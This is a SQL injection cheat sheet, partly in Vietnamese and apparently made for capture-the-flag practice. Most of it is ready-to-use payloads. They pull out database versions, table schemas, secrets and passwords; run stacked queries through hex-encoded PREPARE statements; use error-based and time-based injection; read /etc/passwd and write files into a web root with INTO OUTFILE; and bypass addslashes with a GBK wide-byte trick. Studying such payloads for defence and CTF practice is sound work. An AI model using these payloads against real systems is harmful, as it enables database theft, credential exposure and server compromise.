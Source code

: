 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```


# Use Handler de thuc thi cau lenh

HANDLER demo OPEN; HANDLER demo READ FIRST, HANDLER demo READ NEXT, HANDLER demo CLOSE:

# Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

Postgre: select * from rd_table where id='abc' order by id ASC,cast((select concat(p455w0rd_c0l) from m3mbr35t4bl3 limit 1 offset 0) as integer)-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

# Load file 
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/<web-root>/1.txt";-- -

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/<web-root>/2.txt";-- -

# Bypass add slash into single quote us

Nguyên tắc: Khi mySQL sử dụng mã hóa GBK, nó sẽ coi hai ký tự là một ký tự Trung Quốc, ví dụ: %aa%5c là một ký tự Trung Quốc (mã ascii trước đó lớn hơn 128 để đạt được phạm vi ký tự Trung Quốc). Khi chúng ta lọc ', chúng ta thường sử dụng ý tưởng chuyển đổi ' thành \' (hàm hoặc ý tưởng chuyển đổi sẽ được giới thiệu tại thời điểm của mỗi cấp độ).

Do đó, chúng ta đang cố gắng tìm cách loại bỏ \ được thêm vào trước đó, và nói chung có hai cách suy nghĩ:

%df ăn \ Lý do cụ thể là urlencode(\') = %5c%27, chúng ta thêm %df trước %5c%27 để tạo thành %df%5c%27 và mysql được đề cập ở trên sẽ coi hai byte là ký tự Trung Quốc khi mã hóa bằng GBK, trong đó %df%5c là ký tự Trung Quốc và %27 được sử dụng như một ký hiệu riêng biệt bên ngoài, điều này cũng đạt được mục đích của chúng ta.
Lọc ra \ trong \', ví dụ: bạn có thể xây dựng %**%5c%5c%27 và %5c sau sẽ được chú thích bởi %5c trước đó. Đây cũng là một cách để bỏ qua.




